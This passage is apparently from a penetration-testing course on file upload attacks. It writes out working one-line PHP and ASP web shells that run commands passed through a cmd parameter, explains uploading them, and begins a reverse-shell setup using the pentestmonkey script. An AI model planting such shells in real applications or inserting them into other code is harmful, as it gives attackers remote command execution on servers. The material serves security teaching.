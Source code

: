 Although using web shells from online resources can provide a great experience, we should also know how to write a simple web shell manually. This is because we may not have access to online tools during some penetration tests, so we need to be able to create one when needed.

For example, with `PHP` web applications, we can use the `system()` function that executes system commands and prints their output, and pass it the `cmd` parameter with `$_REQUEST['cmd']`, as follows:

Code: php

```php
<?php system($_REQUEST['cmd']); ?>
```

If we write the above script to `shell.php` and upload it to our web application, we can execute system commands with the `?cmd=` GET parameter (e.g. `?cmd=id`), as follows:

&#x20;  ![](https://academy.hackthebox.com/storage/modules/136/file\_uploads\_php\_manual\_shell.jpg)

This may not be as easy to use as other web shells we can find online, but it still provides an interactive method for sending commands and retrieving their output. It could be the only available option during some web penetration tests.

Tip: If we are using this custom web shell in a browser, it may be best to use source-view by clicking `[CTRL+U]`, as the source-view shows the command output as it would be shown in the terminal, without any HTML rendering that may affect how the output is formatted.

Web shells are not exclusive to `PHP`, and the same applies to other web frameworks, with the only difference being the functions used to execute system commands. For `.NET` web applications, we can pass the `cmd` parameter with `request('cmd')` to the `eval()` function, and it should also execute the command specified in `?cmd=` and print its output, as follows:

Code: asp

```asp
<% eval request('cmd') %>
```

We can find various other web shells online, many of which can be easily memorized for web penetration testing purposes. It must be noted that `in certain cases, web shells may not work`. This may be due to the web server preventing the use of some functions utilized by the web shell (e.g. `system()`), or due to a Web Application Firewall, among other reasons. In these cases, we may need to use advanced techniques to bypass these security mitigations, but this is outside the scope of this module.

***

### Reverse Shell

Finally, let's see how we can receive reverse shells through the vulnerable upload functionality. To do so, we should start by downloading a reverse shell script in the language of the web application. One reliable reverse shell for `PHP` is the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell) PHP reverse shell. Furthermore, the same [SecLists](https://github.com/danielmiessler/SecLists/tree/master/Web-Shells) we mentioned earlier also contains reverse shell scripts for various languages and web frameworks, and we can utilize any of them to receive a reverse shell as well.

Let's download one of the above reverse shell scripts, like the [pentestmonkey](https://github.com/pentestmonkey/php-reverse-shell), and then open it in a text editor to input our `IP` and listening `PORT`, which the script will connect to. For the `pentestmonkey` script, we can modify lines `49` and `50` and input our machine's IP/PORT:
